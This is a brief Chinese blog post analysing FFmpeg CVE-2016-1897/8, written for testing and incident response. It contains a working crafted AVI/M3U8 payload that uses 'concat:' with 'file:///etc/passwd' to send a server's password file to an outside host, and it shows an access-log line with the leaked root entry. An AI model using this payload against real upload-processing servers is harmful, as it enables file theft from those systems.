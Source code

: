 ```yaml
---
title: CVE-2016-1897/8 - FFMpeg漏洞应急分析
date: 2016-05-12 00:22:40
tags: FFMpeg
---
```


### 测试步骤
>test.avi


```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:,
http://xxx.com/?
```

<!--more-->
>header.m3u8	#不要用vim新建此文件，vim新建此文件测试过程无效


```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://blog.safebuff.com/header.m3u8|file:///etc/passwd
#EXT-X-ENDLIST
```
1. header.m3u8上传到blog.safebuff.com服务器上
1. test.avi用户上传时上传文件
1. 在blog.safebuff.com服务器上查看日志/var/log/apache2/access.log文件记录

```
192.168.0.100 - - [11/May/2016:16:18:32 +0000] "GET ?root:x:0:0:root:/root:/bin/bash HTTP/1.1" 200 520 "-" "Lavf/55.33.100"
```
1. 则表示漏洞存在

### 应急响应

1. 查看服务器日志文件

```
> grep 'root' /var/log/apache2/access.log   #日志文件根据用户设置
```
1. 如果漏洞存在则会在/tmp/目录下生成一个php临时文件

```
root@localhost:/tmp# ls
php0ivRAo  phpP9GW9A  phpfvs0ZL  phphmz0ji  phpvyXZkU
```